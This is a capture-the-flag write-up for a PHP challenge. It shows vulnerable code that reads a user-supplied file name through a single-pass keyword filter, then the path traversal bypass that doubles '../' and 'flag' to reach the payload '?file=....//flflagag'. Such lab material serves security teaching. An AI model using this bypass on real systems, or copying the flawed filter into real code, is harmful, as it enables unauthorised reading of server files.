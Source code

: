 # Spot It Writeup

28<sup>th</sup> March 2024

​**Challenge Author:** Kudo

​**Difficulty:** <font color=Orange>Medium</font>

​**Classification:** Official

# Synopsis

- The challenge involves a PHP code to be reviewed to find LFI vulnerability and escape some filtration on the payload.

## Description

* I have given you the source code, is that enough for you ?
* *Note: The flag file is `flag.php` which exsists in the parent directory.*

## Skills Required

- Solid knowledge about PHP
- Knowledge about Local File Inclusion (LFI)
- Ability to look for online payloads

## Skills Learned

- Source Code Analysis
- LFI filtration bypass

## Application Overview

We are presented with the source code, written in `PHP`:

```php
<?php

if(isset($_GET))
{
  if (isset($_GET['file']))
  {
    $input = $_GET['file'];

    if(preg_match("/flag|filter|base|data|\.\.\/|resource/i", $input))
    {
      echo "<br><br><h3 style='text-align: center; color: red'>Hacker Detected !!</h3>";

      $input = preg_replace("/flag|filter|base|http|\.\.\/|data|resource/i", "", $input);
    }

    echo file_get_contents($input);
    echo "<br><br>";

  }
}
else
{
  echo "Only GET requests are allowed here";
}

highlight_file("index.php");

?>
```

## Code Break Down

After inspecting the code, it does the following:
- It checks if we have used a GET parameter named `file` in our request.
- If our parameter value contains any of these words, case insensitively: (flag, filter, base, http, ../ , data, resource), then it will remove it.
- It will get the content of the resulted filename, after filtration and removal, and render it back to us.

## Exploitation

Since we know that the file is in the parent directory, we must use the `../` to get back to the previous folder. However, as soon as it looks for it, it will remove it from our payload. 
But what if doubled them, so after the removal, it will result in our desired form, as shown below:

```
../banana => banana

....//banana
..(../)/banana   () is discovered and removed
../banana
```

And the same is applied for the word "flag", since it is being filtered also.

```
../flag => ../

../flflagag
../fl(flag)ag   () is discovered and removed
../flag
```

So, the final payload for us will be like this:
```
?file=....//flflagag
```
And the output is our FLAG:

![img](./assets/flag.png)
